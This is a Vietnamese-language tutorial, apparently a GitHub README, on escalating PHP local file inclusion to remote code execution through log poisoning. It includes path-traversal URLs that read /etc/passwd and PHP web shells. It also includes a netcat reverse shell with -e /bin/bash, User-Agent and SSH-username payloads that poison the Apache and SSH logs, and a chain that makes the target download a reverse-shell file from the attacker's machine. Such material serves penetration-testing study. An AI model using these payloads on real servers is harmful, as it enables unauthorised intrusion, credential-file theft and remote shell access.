 # LFI_TO_RCE_VIA_LOG_POISONING
## What is a file inclusion vulnerability ?
Nguyên nhân: do xác thực đầu vào kém. Trong code php web, các lập trình viên thường sử dụng các lệnh include, require, include_once, require _ once , các lệnh này cho phép việc file hiện tại có thể gọi ra 1 file khác.

Dấu hiệu để nhận biết rằng trang web có thể tấn công file inclusion là đường link thường có dạng ```php?page=,hoặc php?file= ....``` 

Kết quả: cho phép attacker truy cập trái phép vào những tập tin nhạy cảm trên máy chủ web hoặc thực thi các tệp tin độc hại

File Inclusion có thể dẫn đến các cuộc tấn công sau :
- Code execution on the web server
- Cross Site Scripting Attacks (XSS)
- Denial of service (DOS)
- Data Manipulation Attacks
## What is LFI to RCE ?
Local file inclustion (LFI) là lỗi cơ bản của các trang web, thông thường là do lỗi cấu hình che dấu file và sai sót khi filter input form , cho phép bạn di chuyển vào thư mục và đọc tệp (path traversal). Nó có thể cung cấp các thông tin nhảy cảm như là passwd, php.ini, access_log, config.php…, đôi khi có thể được sử dụng dể Remote Code Execution (RCE)
```
<?php
$file = $_GET['file'];

 include("/" . $file.".php");      <---- vulnerable LFI
?>
```
Để thực hiện cuộc tấn công này, chúng ta cần trở lại thư mục root bằng cách sử dụng biến tham chiếu ``` ../ ``` (đại điện cho các thư mục đằng trước)

Sau khi đến được thư mục root, để đọc file chứa thông tin về các người dùng, ta sử dụng /etc/passwd (cho hệ điều hành trên UNIX)

Tham khảo 1 số file phổ biến:
- /etc/passwd: có tất cả người dùng đã đăng kí có quyền truy cập vào hệ thống.
- /etc/shadow: chứa thông tin về mật khẩu của người dùng trong hệ thống.
- /root/.bash_history: chứa các lệnh đã được thực thi của root
- /proc/version: chứa thông tin về phiên bản kernel của hệ thống
Thêm "../../../../etc/passwd%00" vào URL
```
Example URL: http//10.10.10.10/index.php?file=../../../../etc/passwd%00
```    
Muốn truy cập một file không phải kiểu “text” chúng sẽ sử dụng một %00 (kí tự byte rỗng sau tên của file)
```
<?php
$file = $_GET['file'];

 include("/../../../../etc/passwd%00.php");      <---- path traversal to LFI
?>
```
LFI vulnerable PHP functions: 
- include()
- include_once()
- require()
- require_once()
- fopen() 

Remote Code Execution (RCE) nghĩ là thực thi code từ xa, Tức là bạn có thể thông qua một kĩ thuật nào đó để có thể đạt được quyền điều khiển trên máy nạn nhân, thông qua đó có thể thực thi bash, shell...hoặc code của một vài ngôn ngữ kịch bản như python, perl, javascript...
```
<?php system($_GET['c']); ?>
<?php system($_REQUEST['c']$); ?>

<?php
$os = shell_exec('id');
echo "<pre>$os</pre>";
?>

<?php
$os = shell_exec('nc 10.10.10.10 4444 -e /bin/bash');
?>

// Replace IP & Port

Dangerous PHP Functions that can be abused for RCE
<?php
print_r(preg_grep("/^(system|exec|shell_exec|passthru|proc_open|popen|curl_exec|curl_multi_exec|parse_ini_file|show_source)$/", get_defined_functions(TRUE)["internal"]));
?>
```
Other ways to inject your code:
- Using directory traversal to read files
- Log poisoning
- Session variables
- Uploaded files
- Emails
- Shared hosting
- FTP and orther logs
## What is Log poisoning ?
Log poisoning – thực hiện lây nhiễm mã độc vào tệp tin nhật ký. Chúng ta có thể sử dụng cách chèn tập tin từ máy chủ nội bộ thông qua một lỗ hổng quen thuộc – Local File Inclusion để chèn mã độc và thực thi lệnh tùy ý trên hệ thống.

Trước khi đi vào nội dung vấn đề, chúng ta cần biết một chút về máy chủ và cơ chế ghi log của chúng. Một máy chủ web thường chứa một vài dịch vụ khác nhau như SSH, Apache, MySQL, FTP … Hầu hết các dịch vụ này đều có các tệp tin log và được lưu trữ ngay tại máy chủ

### Dữ liệu nhật ký của SSH
SSH viết tắt của Secure Shell, là một giao thức được sử dụng để kết nối và điều khiển một thiết bị. Nó cho phép bạn thực thi lệnh, quản lí thiết bị từ xa. Các lệnh đăng nhập vào thiết bị từ xa thông qua SSH như sau:
```
ssh <user>@<ip/domain>
ssh <ip/domain> -l <user>
```
Khi người dùng cố gắng kết nối đến thiết bị thông qua SSH sẽ được ghi lại vào một tệp tin nhật ký kiểu như auth.log. Thông điệp được ghi lại phụ thuộc vào kết quả của một lần đăng nhập.

Đăng nhập thành công

```Accepted password from <user> from <ip> port ......```

Đăng nhập thất bại

```Failed password from <user> from <ip> port ......```

LFI to RCE via SSH Log File Poisoning (PHP)
```
Example URL: http//10.10.10.10/index.php?file=../../../../../../../var/log/auth.log 

Payload: ssh <?php system($_GET['c']);?>@<target_ip>

Execute RCE: http//10.10.10.10/index.php?file=../../../../../../../var/log/auth.log&c=id
```
### Dữ liệu nhật ký của Apache
Apache là một máy chủ web được sử dụng rất phổ biến để triển khai các hệ thống website. Nó có hai tệp tin nhật ký chính là nhật ký truy cập và nhật ký ghi lại các báo lỗi của hệ thống. Nhật ký truy cập chứa thông tin về tất cả các yêu cầu được gửi lên máy chủ và nhật ký thông báo lỗi chứa thông điệp lỗi của hệ thống. 

Phần chúng ta quan tâm là nhật ký truy cập. Cấu trúc của tệp tin chứa thông tin nhật ký truy cập như sau (tùy từng loại cấu hình có thể có các định dạng khác nhau, tuy nhiên về cơ bản nó cung cấp các thông tin tương tự như dòng dữ liệu bên dưới):

```127.0.0.1 - - [06/Nov/2014:17:14:31 +0100] "GET / HTTP/1.1" 200 7562 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Ubuntu Chromium/37.0.2062.120 Chrome/37.0.2062.120 Safari/537.36"```

Chúng ta sẽ chia dòng dữ liệu này thành 3 phần:

```"GET / HTTP/1.1": Phương thức request```

```"-": Referer```

```"Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Ubuntu Chromium/37.0.2062.120 Chrome/37.0.2062.120 Safari/537.36" : Thông tin về máy khách đã gửi yêu cầu đến (User agent).```

Tất cả các giá trị này đều dễ dàng thay đổi bởi người dùng.

LFI to RCE via Apache Log File Poisoning (PHP)

```
Example URL: http//10.10.10.10/index.php?file=../../../../../../../var/log/apache2/access.log 

Payload: curl "http://192.168.8.108/" -H "User-Agent: <?php system(\$_GET['c']); ?>" 

Execute RCE: http//10.10.10.10/index.php?file=../../../../../../../var/log/apache2/access.log&c=id

OR

python -m SimpleHTTPServer 9000 

Payload: curl "http://<remote_ip>/" -H "User-Agent: <?php file_put_contents('shell.php',file_get_contents('http://<local_ip>:9000/shell-php-rev.php')) ?>" 

file_put_contents('shell.php')                                // What it will be saved locally on the target
file_get_contents('http://<local_ip>:9000/shell-php-rev.php') // Where is the shell on YOUR pc and WHAT is it called

Execute PHP Reverse Shell: http//10.10.10.10/shell.php
```
